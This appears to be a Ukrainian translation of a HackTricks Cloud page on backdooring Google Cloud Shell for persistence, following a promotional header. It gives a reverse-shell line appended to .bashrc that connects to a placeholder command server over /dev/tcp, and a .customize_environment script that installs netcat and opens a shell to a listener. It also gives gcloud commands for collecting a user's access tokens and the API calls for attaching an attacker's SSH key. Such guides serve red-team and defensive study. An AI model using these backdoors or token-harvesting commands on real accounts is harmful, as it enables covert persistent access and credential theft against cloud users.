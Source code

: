 # GCP - Збереження Cloud Shell

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* репозиторії GitHub.

</details>

## Cloud Shell

Для отримання додаткової інформації перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Постійна задні ворота

[**Google Cloud Shell**](https://cloud.google.com/shell/) надає вам доступ до командного рядка для ваших хмарних ресурсів безпосередньо з вашого браузера без будь-яких пов'язаних витрат.

Ви можете отримати доступ до Cloud Shell від Google з **веб-консолі** або запустивши **`gcloud cloud-shell ssh`**.

Ця консоль має деякі цікаві можливості для атакування:

1. **Будь-який користувач Google з доступом до Google Cloud** має доступ до повністю аутентифікованого екземпляра Cloud Shell (Службові облікові записи можуть мати доступ, навіть якщо вони є власниками організації).
2. Зазначений екземпляр буде **зберігати свій домашній каталог принаймні 120 днів**, якщо не відбувається жодної діяльності.
3. Немає **можливостей для організації моніторити** діяльність цього екземпляра.

Це в основному означає, що атакувальник може розмістити задню ворота в домашньому каталозі користувача, і поки користувач підключається до GC Shell принаймні раз на 120 днів, задня ворота залишиться, і атакувальник отримає оболонку кожного разу, коли вона запускається, просто виконавши:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Є ще один файл у домашній папці під назвою **`.customize_environment`**, якщо він існує, він буде **виконуватися кожного разу**, коли користувач отримує доступ до **хмарного шелу** (як у попередній техніці). Просто вставте попередній backdoor або один з наступних, щоб зберігати постійність, доки користувач **"часто"** використовує хмарний шел:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Важливо зауважити, що **перший раз, коли виконується дія, яка вимагає автентифікації**, у браузері користувача з'являється спливаюче вікно авторизації. Це вікно повинно бути прийняте перед тим, як команда може бути виконана. Якщо з'явиться неочікуване спливаюче вікно, це може викликати підозру та потенційно підірвати використану методику постійства.
{% endhint %}

Це спливаюче вікно під час виконання `gcloud projects list` з оболонки хмари (як зловмисник) переглядається в сеансі користувача браузера:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Однак, якщо користувач активно використовував cloudshell, спливаюче вікно не з'явиться, і ви можете **збирати токени користувача за допомогою**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Як встановлюється з'єднання SSH

Основні чинні API-виклики:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (змусить вас додати свій публічний ключ, який ви створили локально)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (змусить вас запустити екземпляр)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (повідомить вам IP-адресу оболонки Google Cloud)

Але ви можете знайти додаткову інформацію за посиланням [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Посилання

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
